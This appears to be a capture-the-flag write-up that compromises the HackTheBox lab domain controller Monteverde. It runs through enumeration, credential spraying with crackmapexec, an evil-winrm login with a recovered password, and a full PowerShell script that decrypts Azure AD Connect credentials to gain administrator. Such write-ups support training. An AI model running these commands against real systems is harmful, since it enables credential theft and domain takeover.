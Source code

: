 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.172 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/1.png
">

After running a thorough portscan on the target we learn that the target is a domain controller and has lot's of open ports. This can be usefull for enumeration.

# Enumeration
We'll try to run some basic vulnerability scans on ports that are known to have security issues. This didn't return anything usefull.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/2.png
">

Running ```enum4linux 10.10.10.172``` gave use much information:
```
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]

[+] Getting domain groups:
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Azure Admins] rid:[0xa29]
group:[File Server Admins] rid:[0xa2e]
group:[Call Recording Admins] rid:[0xa2f]
group:[Reception] rid:[0xa30]
group:[Operations] rid:[0xa31]
group:[Trading] rid:[0xa32]
group:[HelpDesk] rid:[0xa33]
group:[Developers] rid:[0xa34]
```
We note that the ```Account Lockout Threshold``` is set to ```None``` enabling us to bruteforce the target without being locked out.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/4.png
">

Unfortunately there isn't a share available. This is a common place to find usefull information. But we do have found some usernames which we'll save to ```username.txt```.
```
mhope
dgalanos
roleary
smorgan
SABatchJobs
```

Also running the following command returned a lot of information related to the domain.
```
map -n -sV --script "ldap* and not brute" 10.10.10.172 -Pn
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/3.png
">

Running ```ldapdomaindump 10.10.10.172``` gave me issues. Not sure if it's a local problem.

# Initial Foothold
We can now try to run a dictionary attack on the smb service using ```crackmapexec```.

```
crackmapexec smb 10.10.10.172 -d megabank -u usernames.txt -p /usr/share/seclists/Passwords/darkweb2017-top1000.txt 
```
That didn't return valid credentials. Let's try it again using the usernames also as passwords:
```
crackmapexec smb 10.10.10.172 -d megabank -u usernames.txt -p usernames.txt
```
That led to success:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/5.png
">

# Lateral Movement
We can use ```smbmap``` to see which shares are available to user ```SABatchJobs```. Using the ```-R``` argument lists all files and folders. The ```-x [command]``` let's us run commands, but it didn't work on this target.

```
smbmap -u SABatchJobs -p SABatchJobs -d Megabank -H 10.10.10.172 -R  
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/6.png
">

We find an interesting file and download it using the ```-A``` argument.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/8.png
">

The content shows us a password.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/9.png
">

We'll try this password with the earlier found usernames and are successful with ```mhope```.
```
evil-winrm  -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
```

# Privilege Escalation

Running ```winpeas.bat``` didn't reveal much useful information other than the existence of an ```Azure Admin``` user group.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/10.png
">

Browsing around shows us more Azure programs:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/11.png
">

I found more info on Azure and found out that we could connect to the local database and pull the configuration. We then can decrypt it to get the username and password for the account that handles replication.
https://blog.xpnsec.com/azuread-connect-for-redteam/

We can use the script from the blog and run it on our target:
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
We get our username and password and can now use them to login as administrator using  ```evil-winrm```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/12.png
">

